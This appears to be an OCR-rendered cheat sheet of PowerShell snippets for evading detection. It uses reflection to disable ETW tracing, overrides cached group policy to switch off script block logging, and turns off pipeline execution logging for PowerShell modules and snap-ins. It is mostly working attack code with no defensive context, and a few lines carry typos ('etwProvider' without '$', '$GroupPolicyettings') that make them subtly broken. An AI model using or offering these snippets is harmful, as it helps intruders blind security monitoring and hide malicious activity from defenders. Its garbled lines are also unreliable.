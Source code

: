 # POWERSHELL REFLECTION

#### 1) $logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')

#### $etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)

#### [System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic, Instance').SetValue(etwProvider,0);

#### 2) Compile to .ps1 script

# GROUP POLICY TAKEOVER

#### 1) $GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','NonPublic,Static')

#### $GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)

#### $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0

#### $GroupPolicyettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0

# ABUSING LOG PIPELINE

#### $module = Get-Module Microsoft.Powershell.Utility

#### $module.LogPipelineExecutionDetails = $false

#### $snap = Get-PSSnapin Microsoft.Powershell.Core

#### $snap.LogPipelineExecutionDetails = $false
